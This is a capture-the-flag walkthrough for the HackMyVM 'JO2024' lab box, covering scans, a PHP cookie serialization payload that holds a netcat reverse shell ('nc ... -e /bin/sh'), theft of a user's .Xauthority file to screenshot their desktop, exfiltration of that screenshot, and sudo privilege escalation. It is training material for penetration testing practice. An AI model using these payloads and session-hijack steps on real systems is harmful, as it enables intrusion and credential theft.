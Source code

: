 ![[JO2024 hackmyvm.jpg]]

This medium challenge box employed a variety of attacks and techniques, including a PHP [[Cookie Serialization]] Attack that leveraged the `preferences.php` file to gain a [[Reverse Shell]]. Once access was obtained as the `www-data` user, the `.Xauthority` file was exploited to capture the `vanity` user's graphical session, enabling the extraction of sensitive data through a screenshot that revealed their password. Following this, privilege escalation techniques were utilized to run a script as root without a password, allowing for further access to protected content. 

**Initial [[nmap]] scan**
```bash
└─$ nmap -A -sC -p- 192.168.5.103     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-22 17:56 EDT
Nmap scan report for 192.168.5.103
Host is up (0.0031s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 e7:ce:f2:f6:5d:a7:47:5a:16:2f:90:07:07:33:4e:a9 (ECDSA)
|_  256 09:db:b7:e8:ee:d4:52:b8:49:c3:cc:29:a5:6e:07:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: Paris 2024 Olympic Games
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.20 seconds
```

**Using [[gobuster]] we discover `preferences.php`**
```bash
└─$ gobuster dir -u http://192.168.5.103 -e -r -x html,htm,asp,aspx,jsp,php,cgi,txt,xml -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.103
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              htm,asp,aspx,php,xml,html,cgi,txt,jsp
[+] Follow Redirect:         true
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
...
http://192.168.5.103/img                  (Status: 200) [Size: 2216]
http://192.168.5.103/index.php            (Status: 200) [Size: 7812]
http://192.168.5.103/index.php            (Status: 200) [Size: 7812]
http://192.168.5.103/preferences.php      (Status: 200) [Size: 3163]
http://192.168.5.103/server-status        (Status: 403) [Size: 278]
Progress: 46140 / 46150 (99.98%)
===============================================================
Finished
===============================================================

```

**Going to the `preferences.php` website:**
![[Pasted image 20240922160626.png]]

**Using `Burp Suite` we use the `Proxy` feature to intercept the traffic when we reload the page:**
![[Pasted image 20240922160847.png]]
**On the far right side of the window we can modify the `Decoded from` to gain a [[Reverse Shell]] using a PHP [[Cookie Serialization]] Attack:**

>O:15:"UserPreferences":2:{s:8:"language";s:31:"nc 192.168.5.10 9999 -e /bin/sh";s:15:"backgroundColor";s:4:"#ddd";}

>[!note]
>Make sure you replace the IP with your `Kali` IP address. Also the `31` needs to be modified to match the exact length of the value in the `language` field.

**Click `Apply changes` then `Forward`.**

>[!Optional] Optional
>Lets get a [[Better Shell]]
>```bash
>python3 -c 'import pty; pty.spawn("/bin/bash")'
>```

**We notice that the user `vanity` is logged in and using x11 / xwindows**
```bash
www-data@jo2024:/home/vanity$ w
w
 04:24:52 up 14 min,  1 user,  load average: 0.38, 0.27, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
vanity   tty7     :0               04:10   14:21   0.00s  0.05s /usr/bin/lxsession -s LXDE -e LXDE
```

**Browse the contents of the vanity user's home folder to discover a "backup" script, which appears to be running every minute as a cronjob:**
```bash
/home/vanity$ cat backup 
#!/bin/bash

SRC="/home/vanity"
DEST="/backup"

rm -rf /backup/{*,.*}

echo "Starting copy..."
find "$SRC" -maxdepth 1 -type f ! -name user.txt | while read srcfile; do
    destfile="$DEST${srcfile#$SRC}"
    mkdir -p "$(dirname "$destfile")"
    dd if="$srcfile" of="$destfile" bs=4M

    md5src=$(md5sum "$srcfile" | cut -d ' ' -f1)
    md5dest=$(md5sum "$destfile" | cut -d ' ' -f1)
    if [[ "$md5src" != "$md5dest" ]]; then
        echo "MD5 mismatch for $srcfile :("
    fi
    chmod 700 "$destfile"

done

echo "Copy complete. All files verified !"
```

**Run a while loop to capture the vanity user's `.Xauthority` file and save it to `/tmp/log`, before the permissions are restricted by the user's backup script:**
```bash
while true; do cat /backup/.Xauthority >> /tmp/log 2>/dev/null;sleep 0.01; done
```

**Set `Xauthority` environment variable to use our copy of the user's `Xauthority` file:**
```bash
export XAUTHORITY=/tmp/log
```

**Take a screenshot of the user's desktop and save it to the `/tmp` folder:**
```bash
cd /tmp
xwd -root -screen -silent -display :0 > screenshot.xwd
```

**Start a local python HTTP server to serve the `/tmp` directory containing the screenshot file:**
```bash
python3 -m http.server 8888
```

**On Kali, use wget to download the screenshot file from the target system:**
```bash
└─$ wget http://192.168.10.101:8888/screenshot.xwd
```

**Install the `convert` tool on Kali, and use it to convert the screenshot file to a .PNG image, and open the image to discover the `vanity` user's password:**
```bash
└─$ sudo apt install graphicsmagick-imagemagick-compat
└─$ convert screenshot.xwd screenshot.png
└─$ open screenshot.png
```

**In the screenshot, we can see that the `vanity` user is viewing a text document with Mousepad, containing the user's password:**

![[Assets/vanity-user-desktop.jpg]]

**We can now login to the system as vanity via SSH, using the credentials `vanity:xd0oITR93KIQDbiD` :**

```bash
ssh vanity@192.168.5.103
```

**Run `sudo -l` to discover that user `vanity` can run a script named `php-server.sh` as root:**
```bash
vanity@jo2024:~$ sudo -l
sudo: unable to resolve host jo2024: Name or service not known
Matching Defaults entries for vanity on jo2024:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User vanity may run the following commands on jo2024:
    (ALL : ALL) NOPASSWD: /usr/local/bin/php-server.sh
```

**View the contents of `php-server.sh`, then run the script as root:**
```bash
vanity@jo2024:~$ cat /usr/local/bin/php-server.sh
#!/bin/bash

/usr/bin/php -t /opt -S 0.0.0.0:8000

vanity@jo2024:~$ sudo /usr/local/bin/php-server.sh
```

**Open the web server using the `Burpsuite` web browser, and view the HTTP response for `/get_protected_content.php` to discover a password:**

![[Assets/burpsuite-response-containing-password.jpg]]

**Use this password `LightningBolt123` as the root user's password to gain root access:**
```bash
vanity@jo2024:~$ su root
Password:
root@jo2024:/home/vanity# id
uid=0(root) gid=0(root) groups=0(root)
```


